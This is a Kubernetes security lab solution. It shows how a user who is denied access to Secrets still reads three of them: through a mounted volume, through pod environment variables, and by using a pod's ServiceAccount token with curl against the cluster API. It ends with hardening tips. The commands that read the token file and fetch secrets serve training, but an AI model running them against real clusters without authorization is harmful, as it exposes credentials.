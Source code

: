 # ✅ SOLUTION — Lab: Escaping Secret Restrictions with Pod Workarounds

This solution walks through how a user with very restricted permissions can still exfiltrate the contents of Secrets using clever observation of the Pod configuration and access methods.

---

## 🔁 Step 1: Switch to restricted context

```bash
kubectl config use-context restricted@infra-prod
```

This simulates a low-privileged user who cannot list or get Secrets directly.

```
$ k -n team-red get secrets
Error from server (Forbidden): secrets is forbidden: User "system:serviceaccount:team-red:restricted" cannot list resource "secrets" in API group "" in the namespace "team-red"
```

## 🔍 Step 2: Explore the environment

```bash
kubectl get pods -n team-red
NAME       READY   STATUS    RESTARTS   AGE
pod/pod1   1/1     Running   0          79s
pod/pod2   1/1     Running   0          79s
pod/pod3   1/1     Running   0          79s
```

You should see the 3 running pods: `pod1`, `pod2`, `pod3`

---

## 🔐 Secret 1 (Mounted Volume)

Inspect the pod :

```
$ k -n team-red describe pod/pod1
...
    Mounts:
      /etc/secret-volume from secret-vol (rw)
      /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-2qhzz (ro)
...

$ k -n team-red exec pod1 -- ls -la /etc/secret-volume/
total 4
drwxrwxrwt    3 root     root           100 Apr 15 15:59 .
drwxr-xr-x    1 root     root          4096 Apr 15 15:59 ..
drwxr-xr-x    2 root     root            60 Apr 15 15:59 ..2025_04_15_15_59_04.492721276
lrwxrwxrwx    1 root     root            31 Apr 15 15:59 ..data -> ..2025_04_15_15_59_04.492721276
lrwxrwxrwx    1 root     root            15 Apr 15 15:59 password -> ..data/password

$ k -n team-red exec pod1 -- cat /etc/secret-volume/password
This-IS
```


## 🔐 Secret 2 (Environment Variable)

Inspect pod2 :

```
$ k -n team-red describe pod/pod2
...
Containers:
  c2:
  ...
    Environment:
      PASSWORD:  <set to the key 'PASSWORD' in secret 'secret2'>  Optional: false
...

$ k -n team-red exec pod2 -- env | grep PASSWORD
PASSWORD=the-suP3r
```

## 🔐 Secret 3 (ServiceAccount Token + Kubernetes API)

This one is more subtle and relies on understanding how a pod can use its mounted **ServiceAccount token** to query the Kubernetes API directly.

### 🔎 Step A — Find which pod has the token mounted

```
$ k -n team-red get pod pod3 -o yaml | grep -i serviceAccount
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"pod3","namespace":"team-red"},"spec":{"automountServiceAccountToken":true,"containers":[{"command":["sleep","3600"],"image":"curlimages/curl","name":"c3"}],"serviceAccountName":"pod-sa"}}
  automountServiceAccountToken: true
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
  serviceAccount: pod-sa
  serviceAccountName: pod-sa
      - serviceAccountToken:
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
```
Make sure `automountServiceAccountToken: true` is enabled (default behavior) :

```
$ $ k -n team-red get pod pod3 -o yaml | grep -i automount
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"pod3","namespace":"team-red"},"spec":{"automountServiceAccountToken":true,"containers":[{"command":["sleep","3600"],"image":"curlimages/curl","name":"c3"}],"serviceAccountName":"pod-sa"}}
  automountServiceAccountToken: true
```

### 🔐 Step B — Enter the pod
```bash
$ k -n team-red exec -it pod3 -- sh
```
Inside the shell, inspect the directory:
```sh
$ ls -la /run/secrets/kubernetes.io/serviceaccount
total 4
drwxrwxrwt    3 root     root           140 Apr 15 15:59 .
drwxr-xr-x    3 root     root          4096 Apr 15 15:59 ..
drwxr-xr-x    2 root     root           100 Apr 15 15:59 ..2025_04_15_15_59_05.2109065701
lrwxrwxrwx    1 root     root            32 Apr 15 15:59 ..data -> ..2025_04_15_15_59_05.2109065701
lrwxrwxrwx    1 root     root            13 Apr 15 15:59 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root            16 Apr 15 15:59 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root            12 Apr 15 15:59 token -> ..data/token
```
You see: `token`, `ca.crt`, `namespace`

### 🔐 Step C — Use curl to access the API

We get the token :

```sh
$ TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
```

Call the secrets endpoint:

```sh
$ curl -sSk -H "Authorization: Bearer $TOKEN" https://kubernetes.default/api/v1/namespaces/team-red/secrets/secret3
{
  "kind": "Secret",
  "apiVersion": "v1",
  "metadata": {
    "name": "secret3",
    "namespace": "team-red",
    "uid": "4720e9e6-fe4e-4e30-aa9d-34e5281bfa13",
    "resourceVersion": "174952",
    "creationTimestamp": "2025-04-15T16:31:10Z",
    "annotations": {
      "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"secret3\",\"namespace\":\"team-red\"},\"stringData\":{\"password\":\"pAssw0rd\"}}\n"
    },
    "managedFields": [
      {
        "manager": "kubectl-client-side-apply",
        "operation": "Update",
        "apiVersion": "v1",
        "time": "2025-04-15T16:31:10Z",
        "fieldsType": "FieldsV1",
        "fieldsV1": {
          "f:data": {
            ".": {},
            "f:password": {}
          },
          "f:metadata": {
            "f:annotations": {
              ".": {},
              "f:kubectl.kubernetes.io/last-applied-configuration": {}
            }
          },
          "f:type": {}
        }
      }
    ]
  },
  "data": {
    "password": "cEFzc3cwcmQ="
  },
  "type": "Opaque"

```

Notes :
- `curl -sSk -H "Authorization: Bearer $TOKEN" https://kubernetes.default/api/v1/namespaces/<NAMESPACE>/secrets/<SECRET_NAME>`
- To find the ULR for API search in Kubernetes documentation "API from pod", you will find this page : https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/

### 📦 Step D — Parse the result
You’ll get JSON output similar to:
```json
  "data": {
    "password": "cEFzc3cwcmQ="
```

The value of the secret is base64-encoded.

### 🔐 Step E — Decode and save
```sh
$ echo cEFzc3cwcmQ= | base64 -d 
pAssw0rd
```

✅ All 3 secrets have been successfully retrieved by leveraging what the pods were already allowed to see.


## 🔚 Step 3: Return to admin context

```bash
kubectl config use-context kubernetes-admin@kubernetes
```

## 💡 Tips and Notes

- Never assume that denying Secret `get` or `list` API calls is enough — pods can still expose secrets via mounts or env vars.
- ServiceAccount tokens allow pods to access the API — this should be limited or disabled if not necessary (`automountServiceAccountToken: false`).
- A stricter security design would enforce validation or scanning of pod configurations before scheduling.


